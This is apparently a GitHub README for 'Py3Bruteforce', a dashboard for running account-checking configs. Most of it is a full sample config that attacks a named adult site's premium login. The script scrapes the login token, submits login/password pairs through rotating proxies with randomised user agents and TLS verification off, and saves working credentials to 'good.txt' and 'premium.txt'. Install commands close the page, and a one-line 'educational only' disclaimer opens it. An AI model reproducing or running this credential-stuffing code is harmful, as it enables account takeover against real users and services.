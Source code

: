 # Warning 

This was made only for educational, not for hacking ! Use it at your own risk!

## About

Py3Bruteforce is a web-service which allows you to write your own configs and work with them. 
Config-size is about 70-80 lines of code.

Sample : 

  
<details>
<summary>Config sample</summary>
This is a sample config written for pornhub
  
```python
  import requests
  from utils.utils import Help
  import os,sys
  from bs4 import BeautifulSoup as soup

  # Turning off warnings
  from requests.packages.urllib3.exceptions import InsecureRequestWarning
  requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


  class Brute(object):
      def __init__(self):
          # ========================================
          # Project information
          self.projectName = "Porn"
          self.projectFullName = "PornHub"
          self.description = "Author : Pirate2110"
      def check(self, login, password, proxytype, proxy, timeout):
          try:
              # if proxy == null pass
              if proxy == "err":
                  print("proxerr")
                  pass
              else:
                  with requests.session() as s:
                      # All what u need for project start - here
                      # ========================================
                      # Proxy
                      if proxytype == "no":
                          proxies = None
                      elif proxytype == "burp":
                          proxies = {'https': '127.0.0.1:8080', 'http': '127.0.0.1:8080'}
                      elif proxytype == "https":
                          proxies = {'https': "http://" + proxy}
                      elif proxytype == "socks4":
                          proxies = {'https': "socks4://" + proxy}
                      elif proxytype == "socks5":
                          proxies = {'https': "socks5://" + proxy}

                      # ========================================
                      # Headers
                      headers = {'User-Agent' : Help.getRandomUa()}
                      # Token
                      r = s.get("https://rt.pornhubpremium.com/premium/login", proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      site = soup(r.text, "html.parser")
                      token = site.find("input", id="token")
                      body = {'username' : login, 'password': password, 'remember_me' : 'on', 'from':'mobile_login', 'token' : str(token['value']), 'redirect' : '', 'from' : 'pc_premium_login', 'segment':'straight'}
                      # Auth request
                      r = s.post("https://rt.pornhubpremium.com/front/authenticate", data=body, proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      # ========================================
                      # good or bad if statement
                      if "\u041d\u0435\u0432\u0435\u0440\u043d\u043e\u0435" in r.json()['message']:
                          return "bad"

                      elif r.json()['success'] == "1":
                          if "https://rt.pornhubpremium.com/premium_signup?type=PhP-Lander" in r.json()['redirect']:
                              Help.writelog("good.txt", login + ":" + password + "|" + str(r.text))
                          else:
                              Help.writelog("premium.txt", login + ":" + password + "|" + str(r.text))
                          return "good"
                          #return login + ":" + password + "|" + str(r.json()['result']['basic']) + "|" + str(r.json()['result']['bonus'])
                      else:
                          return "projerrror"
                      # ========================================
          except Exception as e:
              #  ========================================
              #  some info about error
              exc_type, exc_obj, exc_tb = sys.exc_info()
              fname = os.path.split(exc_tb.tb_frame.f_code.co_filename)[1]
              #print(e, exc_type, fname, exc_tb.tb_lineno)
              return "error"
  ```
</details>

## Dashboard screenshot :

![Dashboard](https://github.com/fukttt/fukttt.github.io/raw/main/image/1.png)

Here you can see 
* Dashboard with running projects
* Wiki (for now he is empty)
* Logs (page with logs from projects)
* Upload files (uploading module/sources/proxies)
* System info (about CPU using in graph)
* Available modules (where u can choose module and run it)

## Installation

```bash
git clone https://github.com/fukttt/py3bruteforce.git
cd pybruteforce/
pip3 install -r requirements.txt
python3 app.py
```


